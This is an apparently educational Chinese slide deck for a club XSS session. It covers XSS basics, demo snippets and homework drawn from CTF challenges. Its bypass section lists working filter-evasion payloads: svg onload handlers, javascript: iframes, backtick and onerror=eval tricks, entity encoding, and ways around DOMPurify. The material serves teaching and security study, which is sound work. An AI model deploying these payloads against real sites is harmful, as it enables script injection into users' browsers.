

# XSS 例会 0326

---
layout: image-right
image: https://aszx87410.github.io/beyond-xss/assets/images/01-01-d316d2e67f9b9c2dd116eea67ac8f275.png
---

# 前端安全？

- 前端安全是围绕着**浏览器**讨论的 (常见：[chrome](https://www.google.cn/chrome/), [Firefox](https://www.firefox.com/zh-CN/?utm_source=www.mozilla.org&utm_medium=referral&utm_campaign=products))
- 浏览器是相对安全的环境，它运行 Javascript 作为脚本语言，通常情况下，无法在无授权的情况下访问系统 API，无法直接进行 shell、文件读取等操作。
- 前端安全的主要威胁在于 **XSS**，全称为 Cross Site Scripting，为了和 CSS 区别故简写为 XSS，中文翻译为跨站脚本。该漏洞发生在用户端（浏览器上），具体表现为在网页渲染过程中发生了**不在预期过程中**的 **JavaScript 代码执行**。

---
layout: center
---

# 从三种类型最简单的 XSS 开始

---
layout: two-cols
---


<<< snippets/pxss.ts {monaco-write}{ height: '100%', editorOptions: { wordWrap:'on'} }

<style>
.slidev-monaco-container {
  height: 100%
}
</style>

::right::


<IframeBrowser defaultUrl="http://127.0.0.1:1337"></IframeBrowser>

---
layout: two-cols
---

<<< snippets/rxss.html {monaco-write}{ height: '100%', editorOptions: { wordWrap:'on'} }

<style>
.slidev-monaco-container {
  height: 100%
}
</style>

::right::

<IframeBrowser defaultUrl="http://127.0.0.1:5500/snippets/rxss.html"></IframeBrowser>


---
layout: two-cols
---

<<< snippets/steal.html {monaco-write}{ height: '100%', editorOptions: { wordWrap:'on'} }

<style>
.slidev-monaco-container {
  height: 100%
}
</style>

::right::

<IframeBrowser defaultUrl="http://127.0.0.1:5500/snippets/steal.html"></IframeBrowser>

---

# 最原始的防御：过滤  

- waf script：

利用 event handler 的方式去执行 JavaScript

```html

<svg onload=alert(1)>
```

<https://portswigger.net/web-security/cross-site-scripting/cheat-sheet> 能找到更多

- waf 空格，`<svg/onload=alert(1)>`

<div class="h-[200px] overflow-scroll">

| 字符 | Unicode | 名称 |
| --- | --- | --- |
| `U+0009` | TAB | Horizontal Tab |
| `U+000A` | LF | Line Feed（换行） |
| `U+000C` | FF | Form Feed |
| `U+000D` | CR | Carriage Return 回车 |
| `U+0020` | space | 普通空格 |
| `U+000B` | vertical tab | 垂直制表（较少见，但属于 HTML whitespace） |

</div>

---

- waf eventHandler `on`

```html
<!-- javascript 伪协议, 可结合 open redirect 漏洞 -->
 <!-- https://hello-ctf.com/hc-web/xss/#dom-xss -->
<iframe/src="javascript:alert(1)">
```

- waf `()`

```js
alert`1`

onerror=eval;throw "=alert\x281\x29"
```

- 编码绕过

```html
<!-- j ascii: 106 -->
<iframe/src="&#106;avascript:alert(1)">
<!-- 此外，八进制 \170, 十六进制 \x2e, base64, jsfuck 都能够达到相似效果  -->
```

- 字数限制

```html
<!-- url: https://example.com#';alert(1) -->
<!-- 13 + 18 = 31 字 -->
<svg/onload=eval(`'`+location)>
```

在这里找到更多：<https://tinyxss.terjanq.me/>

---

- 绕过 [htmlspecialchars](https://www.php.net/manual/en/function.htmlspecialchars.php)



由于默认情况下不过滤单引号，可以打出意想不到的结果，如：RCTF web Author

---

- 绕过 DOMPurify

这是一个专门用来净化 HTML 的库，除非配置错误或使用了老版本的有漏洞的 DOMPurify，否则很难直接绕过它；

绕过它的思路大概有几种：

1. 传入不完整的 HTML，破坏页面的结构
2. 让 dompurify 加载失败
3. 利用默认情况下 DOMPurify 允许 style 标签，进行 [CSS 注入](https://aszx87410.github.io/beyond-xss/ch3/css-injection/)

---

# 学习路径

===

在这之后，浏览器又推出了同源策略和 [csp](https://aszx87410.github.io/beyond-xss/ch2/xss-defense-csp/) 等策略来降低 XSS 造成的风险

往后的 XSS 学习，大多集中在利用浏览器的奇怪特性来绕过 csp 等安全策略或利用有限的信息来测信道 leak 出用户隐私。

总的来说，前端安全是一个有趣的方向，他能做到又广又深，感兴趣的师傅可以多多找国外的一些研究资料来进一步学习。

---

# 一些链接

- Beyond XSS (入门书籍): <https://aszx87410.github.io/beyond-xss/>
- Beyond XSS 的作者的博客: <https://blog.huli.tw/archives/>
- 一些前沿研究:
- - <https://www.sonarsource.com/blog/?artdisc_category=Code+security>
- - <https://www.intruder.io/research>
- - PortSwigger 的研究，十大黑客技术 web 手必读: <https://portswigger.net/research>
- 优质前端安全博客: <https://jorianwoltjer.com/blog>
- SECCON 出题人，前端安全大神: <https://blog.arkark.dev/>
- maple，~~react2shell CTF~~的一血: <https://blog.maple3142.net/>
- xsleak 入门: <https://xsleaks.dev/>
- pjsk 战队大神：<https://blog.ankursundara.com/>

---

# 作业

- 完成 google bug hunter <https://xss-game.appspot.com/> 的六个挑战，写简单的 wp
- 不使用 AI，仅使用搜索引擎，尝试解出 LaCTF job-board (<https://ctf.cumt.edu.cn/training/19?challenge=619>)
- 选做 N1CTF Junior Notes (附件在[飞书文档](https://ycnpzxasj1cw.feishu.cn/wiki/OG1Fw5mwUikEfJkDIdjcwHwinzf))
